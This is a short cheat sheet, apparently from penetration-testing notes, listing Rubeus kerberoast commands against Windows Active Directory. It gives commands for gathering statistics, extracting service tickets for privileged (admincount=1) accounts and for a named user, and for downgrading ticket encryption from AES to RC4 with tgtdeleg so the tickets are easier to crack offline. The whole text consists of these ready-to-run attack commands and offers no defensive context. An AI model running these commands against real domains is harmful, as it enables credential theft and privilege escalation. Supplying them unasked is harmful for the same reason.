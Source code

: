 

Getting stats
```powershell-session
.\Rubeus.exe kerberoast /stats
```

Extracting tickets with admincount flag set
```powershell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```

Extracting tickets for specific user account
```powershell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

Using tgtdeleg to downgrade aes to rc4

```.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap```
